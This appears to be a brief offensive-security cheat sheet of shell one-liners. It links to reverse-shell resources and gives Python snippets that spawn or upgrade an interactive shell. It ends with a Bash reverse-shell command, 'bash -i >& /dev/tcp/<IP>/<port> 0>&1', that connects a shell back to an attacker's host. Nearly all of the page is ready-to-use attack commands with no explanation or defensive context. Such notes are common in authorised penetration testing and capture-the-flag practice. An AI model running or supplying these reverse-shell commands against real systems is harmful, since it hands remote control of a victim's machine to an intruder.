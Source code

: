 # Resources
- http://www.revshells.com
- https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux

---

`python -c 'import pty; pty.spawn("/bin/sh")'`

# Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

# Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

# BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
